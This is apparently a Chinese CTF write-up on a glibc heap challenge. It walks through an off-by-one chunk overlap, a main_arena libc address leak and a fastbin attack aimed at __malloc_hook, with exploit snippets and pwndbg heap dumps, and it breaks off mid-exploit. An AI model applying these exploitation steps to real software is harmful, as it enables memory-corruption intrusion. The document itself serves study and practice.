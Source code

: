 **学习过程中，参考了以下博文:**

https://blog.csdn.net/qq_33528164/article/details/79951156   这篇我觉得泄露地址的方法最简便，但是最后无法getshell，我的exp是在他的基础下写的。

https://www.jianshu.com/p/959d4b7b5af1

https://www.jianshu.com/p/95b30d754577

**基本利用思路：**

1. 利用了offbyone，修改处于inuse状态的chunk的size，造成chunk overlap来泄露地址，注意free的时候会检查下一个chunk的size的prev_inuse位是否为1.然后通过fastbin attack完成攻击。
2. 由于__malloc_hook附近没有可用的fake_size。上述的博文的利用思路是利用fastbin attack先将chunk分配到main_arena里.方法是利用chunk overlap，将处于fastbin的chunk的fd修改为0x61,再malloc一个size为0x60的chunk，这时fastbin里的内容就会变成0x61，这样就可以使用fastbin attack，将堆分配到main_arena.
3. 然后修改top_chunk到__malloc_hook附近。再次申请chunk即可得到malloc_hook附近的chunk。但是利用过程出现了很多上述博文没有出现的问题。一步一步的调试最终解决问题。下面记录调试过程。

**详细调试过程：**

复现环境：ubuntu 16.04

1. 泄露地址：

```
alloc(0x48) #0
alloc(0x48) #1
alloc(0x48) #2
alloc(0x48) #3 ；防止被top chunk合并
update(0, 0x49, "A"*0x48 + "\xa1") #修改chunk1的size为0xa1
delete(1)   #1 ；free chunk1，chunk1被放入unsorted bin中
alloc(0x48) #1 ；再malloc 一个0x50大小的chunk，那么chunk1被切割，剩余部分放入unsorted bin，被写入地址。即chunk2的userdata部分被写入&main_arena+88
view(2)     #    泄露地址
p.recvuntil("Chunk[2]: ")
leak = u64(p.recv(8))
libc_base = leak - 0x58-libc.symbols["__malloc_hook"]-0x10
```
连续申请4个chunk后的heap布局如下：
```
0x555555757000 FASTBIN {  #chunk0
  prev_size = 0, 
  size = 81, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
0x555555757050 FASTBIN {  #chunk1
  prev_size = 0, 
  size = 81, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
0x5555557570a0 FASTBIN {  #chunk2
  prev_size = 0, 
  size = 81, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
0x5555557570f0 FASTBIN { #chunk3
  prev_size = 0, 
  size = 81, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
```
修改chunk1的size为0xa1:
```
0x555555757050 PREV_INUSE {
  prev_size = 4702111234474983745, 
  size = 161, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
```
然后free chunk1,再alloc(0x48):
```
0x555555757050 FASTBIN {
  prev_size = 4702111234474983745, 
  size = 81, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
0x5555557570a0 FASTBIN {
  prev_size = 0, 
  size = 81, 
  fd = 0x7ffff7dd1b78 <main_arena+88>, #原本chunk2里就有了地址，再view即可泄露
  bk = 0x7ffff7dd1b78 <main_arena+88>, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
```

2. dup to main_arena:

```
alloc(0x48) #4 = 2 ；接着上一步，malloc一个0x48的chunk，那么得到chunk4和chunk2是指向同一个chunk的。
delete(2)   # free chunk2 ，此时chunk2被放入fastbin中。
update(4,0x8,p64(0x61))  #修改chunk2的fd为0x61
alloc(0x48)#2, 再malloc一个0x48的chunk，那么fastbinsY[3]=chunk2->fd =0x61. 
```
如图所示：
```
pwndbg> fastbins 
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x5555557570a0 ◂— 0x61 /* 'a' */
0x60: 0x0
0x70: 0x0
0x80: 0x0
```
再malloc 一个0x48的chunk：
```
pwndbg> fastbins 
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x61  #成功得到0x61,那么就可以将这里当成合法的chunk
0x60: 0x0
0x70: 0x0
0x80: 0x0
```
下面再次构造overlap, 同前面的一样。
```
alloc(0x58)#5
alloc(0x58)#6
alloc(0x58)#7
alloc(0x58)#8
update(5,0x59,'A'*0x58+'\xc1')
delete(6)
alloc(0x58)#6
alloc(0x58)#9=7
```
